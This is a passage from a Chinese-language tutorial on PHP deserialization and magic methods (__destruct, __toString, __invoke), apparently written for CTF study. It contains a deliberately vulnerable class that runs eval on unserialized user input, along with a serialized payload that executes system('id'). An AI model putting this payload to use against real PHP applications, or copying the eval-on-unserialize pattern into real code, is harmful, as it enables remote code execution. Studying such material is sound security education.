```php
<?php
highlight_file(__FILE__);
error_reporting(0);
class User {
    var $cmd = "echo 'dazhuang666!!';" ;
    public function __destruct()
    {
        eval ($this->cmd);
    }
}
$ser = $_GET["benben"];
unserialize($ser);

?> 

O:4:"User":1:{s:3:"cmd";s:13:"system('id');";}
```

#### 6._toString()

表述方法错误导致魔术方法触发 。
echo或者print只能调用字符串的方式取调用对象，即把对象当成字符串使用，此时自动触发toString()

触发时机：把**对象**被当成**字符串**调用

常用于构造pop链接

把类User实体化并赋值给 test,此时test是个对象调用对象可以使用print_r或者var_dump

```php
 <?php
highlight_file(__FILE__);
error_reporting(0);
class User {
    var $benben = "this is test!!";
         public function __toString()
         {
             return '格式不对，输出不了!';
          }
}
$test = new User() ;
print_r($test);
echo "<br />";
echo $test;
?>
User Object ( [benben] => this is test!! )
格式不对，输出不了!
```



#### 7._invoke()

格式表达错误导致魔术方法触发
